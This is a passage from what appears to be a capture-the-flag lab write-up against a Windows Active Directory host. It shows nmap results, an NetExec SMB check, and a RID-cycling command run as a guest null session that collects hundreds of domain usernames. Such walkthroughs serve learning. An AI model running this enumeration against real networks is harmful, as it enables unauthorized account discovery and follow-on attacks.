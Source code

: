 ```bash
49693/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
49720/tcp open  msrpc         Microsoft Windows RPC
49724/tcp open  msrpc         Microsoft Windows RPC
49780/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: LABYRINTH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-15T07:45:27
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 15 08:45:43 2025 -- 1 IP address (1 host up) scanned in 995.86 seconds
```


Check if the target is an **Active Directory** environment; which as shown belows verifies that this is an AD environment


```bash
❯ nxc smb 10.10.197.194
SMB         10.10.197.194   445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False)
```


Tried an **RID cycling** attack which enumerate user accounts through null sessions and the SIDs and got several usernames


```bash
❯ nxc smb 10.10.197.194 -u guest -p '' --rid-brute | grep -i sidtypeuser | awk -F'\' '{print $2}' | cut -d '(' -f1 >> users.txt

❯ wc -l users.txt
493 users.txt

❯ head users.txt
Administrator 
Guest 
krbtgt 
LABYRINTH$ 
greg 
SHANA_FITZGERALD 
CAREY_FIELDS 
DWAYNE_NGUYEN 
BRANDON_PITTMAN 
BRET_DONALDSON 
--SNIP--
```

